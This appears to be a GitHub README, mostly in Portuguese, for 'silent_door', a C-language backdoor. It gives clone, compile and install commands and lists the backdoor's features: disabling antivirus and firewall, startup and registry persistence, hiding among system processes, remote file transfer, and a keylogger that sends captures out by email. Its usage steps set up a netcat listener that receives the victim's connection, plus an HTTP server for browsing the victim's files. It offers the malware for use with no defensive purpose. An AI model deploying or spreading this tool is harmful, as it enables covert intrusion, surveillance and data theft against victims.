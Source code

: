 # silent_door

# Clássico backdoor, escrito na linguagem C.
 
# Em desenvolvimento.

Classic backdoor, write in c language.

In desenvolpment.  

# instalação:

$ git clone https://github.com/mrx6SO/silent_door
$ cd ~/silent_door 

$ apt install libx11-dev && apt-get update && apt upgrade -y 
$ cc main.c -o wine.01.2 -lm -w -lX11 

$ sudo cp wine.01.2 -t /usr/bin 

$ done

# Funções: 

# auto executáveis -> executam-se automaticamente após a instalação

(#) desativar anti-vírus (caso exista) 

(#) desativar firewall (abrir portas, redirecionar etc)

(#) copiar o software para o registro da máquina alvo 

(#) copiar o software para inicialização junto aos demais programas, assim tendo a conexão ativa quando a máquina for religada

(#) fork para criar um deamon, para rodar no background 

(#) invisível, ao ser executado nada ocorre e os processos associam-se a processos originais do sistema

(#) conexão remota 

#######################################################################################################

# Funções arbitrárias:

# executadas pelo servidor (o qual está em desenvolvimento!) 

(#) enviar arquivo para a máquina alvo

(#) fazer download de arquivos da máquina

( ) inicializar keylogger em modo passivo, enviando os arquivos para e-mail e/ou direto para o servidor. 

 *OBS: Keylogger com tais funções já está pronto. 

(#) informações sobre: ip, nome da máquina etc

( ) informações sobre: a rede da máquina alvo ( outras máquinas conectadas à mesma rede)
 
.... e muito mais por vir!

######################################################################################################

No arquivo requirements.txt estão as bibliotecas necessárias

Caso queira instalar e compilar automaticamente, execute o script sdinstall.sh, contido na pasta install  

# Uso (improvisado): 

1. nc -lvp 3389 

2. ./silent_door (ou ./wine.01.2 ou outro nome qualquer definido) 

3. a conexão é estabelecida  

# Pode ser útil (porém não recomendado):

4. python -m SimpleHTTPServer 3389

Abrindo o diretório atual, para visualização e download dos arquivos

5. Nesse ponto em diante, use suas habilidades 

Sugiro abrir uma nova conexão no backdoor com netcat

Assim como ler a documentação do netcat: man netcat 

enfim, isso está sendo aprimorado 

# Referenciem o meu github caso o redistribuam em outras fontes!

Paz, 

mrx6SO
